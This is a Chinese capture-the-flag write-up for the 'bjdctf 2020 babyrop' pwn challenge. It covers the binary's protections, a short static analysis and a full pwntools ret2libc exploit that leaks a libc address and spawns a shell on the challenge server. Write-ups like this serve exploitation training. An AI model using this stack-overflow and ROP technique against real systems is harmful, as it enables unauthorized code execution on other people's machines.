 ```yaml
---
author: 
  name: Zephyr
title: bjdctf 2020 babyrop
date: 2022-3-22 21:20:03
permalink: /pages/2e1547494524d18c
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# bjdctf 2020 babyrop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/bjdctf_2020_babyrop/bjdctf_2020_babyrop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  vuln();
  return 0;
}
```

vuln函数及函数表如下

![bjdctf_2020_babyrop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/bjdctf_2020_babyrop_1.png)

## 思路分析

1. 目前信息：
   - vuln函数内明显的栈溢出漏洞
   - No PIE
   - NX 保护开启
   - 无后门函数

2. 思路：
   - 本题是标准的ret2libc，应先泄漏libc及函数地址，再利用泄漏的信息构造payload,执行获取shell

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/bjdctf_2020_babyrop/bjdctf_2020_babyrop'
io = remote('node4.buuoj.cn', 28461)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x24+4
libc_start_main_addr = elf.got['__libc_start_main']
puts_addr = elf.plt['puts']
vuln_addr = elf.symbols['vuln']
pop_rdi_ret = 0x400733
payload = flat(['a'*padding, pop_rdi_ret,libc_start_main_addr, puts_addr, vuln_addr])
io.sendlineafter('me u story!\n', payload)
leak_libc_start_main_addr = u64(io.recv(6).ljust(8, b'\x00'))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main_addr)
libcbase = leak_libc_start_main_addr-libc.dump('__libc_start_main')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*padding, pop_rdi_ret, bin_sh_addr, system_addr])
io.sendlineafter('u story!\n', payload)
io.interactive()
```